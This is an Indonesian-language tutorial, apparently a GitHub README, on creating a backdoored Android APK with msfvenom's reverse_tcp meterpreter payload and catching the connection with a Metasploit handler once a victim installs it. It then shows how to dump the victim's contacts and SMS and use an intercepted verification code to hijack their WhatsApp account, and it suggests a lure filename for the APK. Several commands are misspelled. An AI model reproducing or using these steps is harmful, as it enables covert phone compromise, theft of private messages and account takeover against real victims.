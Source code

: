 Cara membuat apk bacdoor kamka :v

cd metasploit-framework
./msfvenom -p android/meterpreter/reverse_tcp LHOST=(ip elo)  LPORT=4444 -o /sdcard/backdoor.apk

NOTE :ip local elo note buja tab baru ketik ifconfig lalu tekan enter NAH di situ ada tulisan inet kalian liat yang
 paling bawah ya kalian copy ip kalian

NOTE LAGI: nama backdoor itu bisa kalian ganti bebas bisa juga kalian ganti jadi SIMONTOK.apk

NOTE LAGI NIH : LPROT BISA 4444 ATAU 8080

Setelah itu masukin PERINTAH exploit nya

Pertama : use multi/handler
Kedua : set payload android/meterpreter/reverse_tcp
Ke tiga : set lhost (Samain yang di atas ip elo)
KE EMPAT : set lport (sesuain yang di atas 4444 atau 8080)
KE LIMA :  exploit NOTE MASUKAN PERINTAH INI JIKA KORBAN SUDAH MENGISTALL APK BACKDOOR NYA

PUNTEN BONUS: 
NAH KLO DAH SELESAI NTAR ADA RULISAN MERTERPRETER
NAH KLO KALIAN MO TAU KONTAK KORBAN masukin prerinta dump_concat
Klo mo sadap wa :
sys info

dalvik/android

 klean login pake nomer korban nah kan udh ya minta kode verivikaisi nya
Pergi ke mestaploit ketil dump_sms nah ntar bakal muncul kode 
Kalian buka tab baru  nah contoh ya kode nya dari mestaploit sms_dump_
29910101.txt  nah  kan kalian sudah buka tab baruya kalian ketik  cat (kode dari mestaploitnya)
